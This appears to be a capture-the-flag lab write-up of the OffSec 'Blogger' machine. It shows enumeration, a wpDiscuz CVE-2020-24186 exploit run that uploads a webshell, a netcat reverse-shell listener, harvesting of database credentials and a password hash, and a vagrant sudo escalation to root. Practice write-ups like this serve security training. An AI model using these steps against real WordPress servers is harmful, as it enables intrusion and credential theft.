 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Blogger
- Description: The Blog of War
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:1d:82:8f:5e:de:9a:00:a8:07:39:bd:ac:ad:d3:44 (RSA)
|   256 d7:b4:52:a2:c8:fa:b7:0e:d1:a8:d0:70:cd:6b:36:90 (ECDSA)
|_  256 df:f2:4f:77:33:44:d5:93:d7:79:17:45:5a:a1:36:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Blogger | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Instantly I start a dirsearch:
```bash
dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://192.168.154.217

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/.dirsearch/reports/192.168.154.217/_24-01-30_10-53-05.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-30_10-53-05.log

Target: http://192.168.154.217/

[10:53:05] Starting: 
[10:53:05] 200 -    5KB - /images/
[10:53:06] 403 -  280B  - /icons/
[10:53:07] 200 -   45KB - /index.html
[10:53:09] 301 -  319B  - /images  ->  http://192.168.154.217/images/
[10:53:10] 301 -  319B  - /assets  ->  http://192.168.154.217/assets/
[10:53:10] 200 -    1KB - /assets/
[10:53:12] 200 -    2KB - /css/
[10:53:12] 301 -  316B  - /css  ->  http://192.168.154.217/css/
[10:53:15] 301 -  315B  - /js  ->  http://192.168.154.217/js/
[10:53:15] 200 -    3KB - /js/
```

Looking through the directories I come across blog:

![](assets/images/2024-01-30-offsec-blogger-writeup-image-1.png)

In it I see a wordpress site, and it has a domain host associated with it:

![](assets/images/2024-01-30-offsec-blogger-writeup-image-2.png)

Looking through the upload directory, I see a reverse shell payload:

![](assets/images/2024-01-30-offsec-blogger-writeup-image-3.png)

This tells me this site has been hacked before me. Let's see if we can mimic the attack!

I ran wordpress scan with aggressive plugin detection:
```bash
wpscan --url http://192.168.154.217/assets/fonts/blog/ -e dbe,cb,vt,ap,u --plugins-detection aggressive
```

Eventually I find an outdated plugin `wpdiscuz`

I run a script that will exploit it and upload a reverse shell:
```bash
offsec python3 49967.py -u http://192.168.154.217/assets/fonts/blog -p '/?p=29'   
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[59453] | code:[200]
[!] Got wmuSecurity value: 23a7103f5b
[!] Got wmuSecurity value: 29 

[+] Generating random name for Webshell...
[!] Generated webshell name: xeynmywwrikutnk

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blogger.thm/assets/fonts/blog/wp-content/uploads/2024/01/xeynmywwrikutnk-1706631153.415.php&quot; 

> whoami

[x] Failed to execute PHP code...
```

However it says it didn't work, looking at the script I can see some syntax issues, I route manually to the directory on the webpage and find the file and get command execution:

![](assets/images/2024-01-30-offsec-blogger-writeup-image-4.png)

I catch a rev shell afterwards!

```bash
offsec nc -nvlp 443
listening on [any] 443 ...                                                                                                                                     
connect to [192.168.45.222] from (UNKNOWN) [192.168.154.217] 42160                                                                                             
bash: cannot set terminal process group (1386): Inappropriate ioctl for device
bash: no job control in this shell                                             
<ress/assets/fonts/blog/wp-content/uploads/2024/01$ whoami                     
whoami          
www-data
```
## Privilege Escalation

I start by enumerating the config file for wordpress for creds:
```php
define('DB_NAME', 'wordpress');                                                
                                                                               
/** MySQL database username */       
define('DB_USER', 'root');
                                                                               
/** MySQL database password */
define('DB_PASSWORD', 'sup3r_s3cr3t');
                                                                               
/** MySQL hostname */
define('DB_HOST', 'localhost');
```

I login to mysql:
```sql
www-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog$ mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 22230
Server version: 10.0.38-MariaDB-0ubuntu0.16.04.1 Ubuntu 16.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

```sql
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | j@m3s      | $P$BqG2S/yf1TNEu03lHunJLawBEzKQZv/ | jm3s          | admin@blogger.thm |          | 2021-01-17 12:40:06 |                     |           0 | j@m3s        |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)

MariaDB [wordpress]> 
```

I see the password is encrypted for jm3s, let's see if we can crack it!

Unfortunately it was not cracked, however, I did find this backup.sh script while I was doing my enumeration:

I see that there are 3 users on the box, I guess the login of vagrant:vagrant on the vagrant account and get access, checking sudo privs I can see I have nopasswd ALL:
```bash
vagrant@ubuntu-xenial:/$ sudo -l
sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
```

```
vagrant@ubuntu-xenial:/$ sudo su 
sudo su 
root@ubuntu-xenial:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

best,
gerbsec